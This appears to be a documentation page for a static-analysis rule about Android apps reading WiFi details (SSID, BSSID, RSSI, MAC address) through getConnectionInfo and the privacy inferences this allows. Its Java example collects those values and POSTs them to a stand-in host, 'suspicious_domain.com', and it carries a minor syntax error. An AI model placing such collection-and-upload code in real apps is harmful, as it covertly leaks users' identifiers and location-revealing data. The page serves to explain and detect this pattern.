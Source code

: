 Android APK WiFi API allows access to Personal Identifiable Information (PII) such as network names and access points usage history, potentially leading to private data inference.

Applications using the `ACCESS_WIFI_STATE` permission and calling APIs like `getConnectionInfo` can access sensitive information about WiFi access points (such as `BSSID`, `SSID`, and `RSSI`) and potentially infer:

* MAC Address which is a unique device identifier.
* Geolocation data by using surrounding WiFi access points.
* User movement history and social links inference relying on repeating patterns in WiFi access point usage.

### Examples

=== "Java"

 ```java
 
    import android.content.Context;
    import android.net.wifi.WifiInfo;
    import android.net.wifi.WifiManager;
    import java.net.HttpURLConnection;
    import java.net.URL;
    import java.io.OutputStream;
    import java.nio.charset.StandardCharsets;
    
    public class WifiInfoRetriever {
    
        private Context context;
    
        public WifiInfoRetriever(Context context) {
            this.context = context;
        }
    
        public void retrieveWifiInfo() {
            WifiManager wifiManager = (WifiManager) context.getSystemService(Context.WIFI_SERVICE);
            
            if (wifiManager.isWifiEnabled()) {
                WifiInfo wifiInfo = wifiManager.getConnectionInfo();
                
                String ssid = wifiInfo.getSSID();
                String bssid = wifiInfo.getBSSID();
                int rssi = wifiInfo.getRssi();
                String macAddress = wifiInfo.getMacAddress();
                
                // Construct JSON with data
                String jsonInputString = String.format("{\"ssid\":\"%s\", \"bssid\":\"%s\", \"rssi\":%d, \"macAddress\":\"%s\"}",
                ssid, bssid, rssi, macAddress);
                
                try {
                    // Endpoint URL
                    URL url = new URL("http://suspicious_domain.com/api/networks");
                    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                    
                    // Connection setup
                    connection.setDoOutput(true);
                    connection.setRequestMethod("POST");
                    connection.setRequestProperty("Content-Type", "application/json");
                    
                    try (OutputStream os = connection.getOutputStream()) {
                        byte[] input = jsonInputString.getBytes(StandardCharsets.UTF_8);
                        os.write(input, 0, input.length);
                    }
                    // Additional analysis could be performed when the data reaches the endpoint
                    // such as inferring location or movement patterns of users             
                    connection.disconnect();
                } catch (Exception e) {
                    e.printStackTrace():
                }
            } else {
                System.out.println("WiFi is not enabled");
            }
        }
    }
 ```

